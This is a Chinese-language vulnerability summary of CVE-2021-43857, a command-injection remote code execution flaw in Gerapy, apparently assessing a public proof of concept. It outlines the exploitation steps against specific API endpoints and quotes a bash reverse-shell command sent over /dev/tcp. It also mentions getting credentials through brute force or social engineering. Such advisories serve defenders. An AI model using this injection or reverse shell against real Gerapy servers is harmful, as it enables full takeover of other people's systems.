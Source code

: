 ## CVE-2021-43857-Gerapy-远程代码执行

**漏洞编号:** CVE-2021-43857

**漏洞类型:** 远程代码执行

**影响应用:** Gerapy

**危害等级:** 高危，可能导致完全控制服务器

**影响版本:** < 0.9.8

**利用条件:** 需要能够访问Gerapy服务，并且知道有效的用户名和密码

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-43857是Gerapy框架中存在的一个远程代码执行漏洞，影响版本小于0.9.8。攻击者可以利用此漏洞在目标服务器上执行任意代码。根据漏洞信息，漏洞是由于程序没有正确地过滤用户输入，导致OS命令注入。

**有效性：**

根据提供的漏洞库信息、搜索引擎结果和漏洞利用代码，可以判断该漏洞利用代码是有效的。漏洞库信息明确指出Gerapy 0.9.8之前的版本存在远程代码执行漏洞（CWE-78，OS命令注入），CVSS评分高达9.8，属于严重级别。搜索引擎结果中也包含了多个关于此漏洞的描述和利用链接，例如Exploit-DB上的利用代码。

提供的漏洞利用代码首先通过/api/user/auth接口使用用户名和密码获取token，然后通过/api/project/robots/parse接口，将恶意构造的包含反弹shell命令的JSON数据发送到服务器，从而实现远程代码执行。

**投毒风险：**

分析提供的POC代码，发现存在一定的投毒风险，大约10%。风险主要体现在以下几个方面：

1.  **反弹Shell依赖：** POC代码中包含反弹shell的逻辑。如果目标机器上没有bash或者其他shell环境，利用可能会失败。而且反弹shell存在被防火墙拦截的风险。
2.  **维护者信息：**虽然作者声明了免责声明，但是代码中缺乏详细的注释和说明，增加了潜在的风险。

**利用方式：**

1.  **身份验证：** 攻击者需要知道Gerapy实例的有效用户名和密码。这可能通过暴力破解、社工或其他方式获得。
2.  **获取Token：** 使用已知的用户名和密码，通过/api/user/auth接口获取授权Token。
3.  **命令注入：** 构造包含恶意命令的JSON数据，该命令会被注入到操作系统层面执行。 POC使用`/bin/bash -c 'bash -i >& /dev/tcp/%s/%s 0>&1'` 实现反弹shell
4.  **发送Payload：** 将构造的JSON数据通过POST请求发送到/api/project/robots/parse接口。
5.  **反弹Shell：** 如果漏洞利用成功，目标服务器会反弹一个shell到攻击者的指定IP和端口。

**项目地址:** [lowkey0808/CVE-2021-43857](https://github.com/lowkey0808/CVE-2021-43857)

**漏洞详情:** [CVE-2021-43857](https://nvd.nist.gov/vuln/detail/CVE-2021-43857)